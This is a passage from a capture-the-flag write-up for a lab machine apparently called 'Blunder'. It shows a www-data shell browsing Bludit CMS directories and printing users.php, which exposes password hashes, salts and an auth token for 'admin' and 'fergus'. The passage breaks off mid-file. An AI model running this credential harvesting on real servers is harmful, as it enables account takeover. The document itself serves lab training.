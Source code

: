 ### Previlege Escalation - user

go back to the www-data directory
```
www-data@blunder:/home/hugo$ cd /var/www/bludit-3.9.2/bl-content/
cd /var/www/bludit-3.9.2/bl-content/
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ ls -la
ls -la
total 28
drwxr-xr-x  7 www-data www-data 4096 Nov 27  2019 .
drwxrwxr-x  8 www-data www-data 4096 Apr 28 12:18 ..
drwxr-xr-x  3 www-data www-data 4096 May 31 01:37 databases
drwxr-xr-x 11 www-data www-data 4096 May 30 22:38 pages
drwxr-xr-x  3 www-data www-data 4096 Jun  1 14:59 tmp
drwxr-xr-x  5 www-data www-data 4096 Nov 27  2019 uploads
drwxr-xr-x  4 www-data www-data 4096 Nov 27  2019 workspaces
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ cd databases
cd databases
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ ls -la
ls -la
total 180
drwxr-xr-x 3 www-data www-data   4096 May 31 01:37 .
drwxr-xr-x 7 www-data www-data   4096 Nov 27  2019 ..
-rw-r--r-- 1 www-data www-data    438 May 30 22:38 categories.php
-rw-r--r-- 1 www-data www-data   5110 May 30 22:38 pages.php
drwxr-xr-x 6 www-data www-data   4096 Nov 27  2019 plugins
-rw-r--r-- 1 www-data www-data 143312 Jun  1 14:53 security.php
-rw-r--r-- 1 www-data www-data      0 May 31 01:37 shell
-rw-r--r-- 1 www-data www-data   1319 May 19 11:28 site.php
-rw-r--r-- 1 www-data www-data   2357 May 30 22:38 syslog.php
-rw-r--r-- 1 www-data www-data     52 May 30 22:38 tags.php
-rw-r--r-- 1 www-data www-data   1300 May 30 21:27 users.php
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
```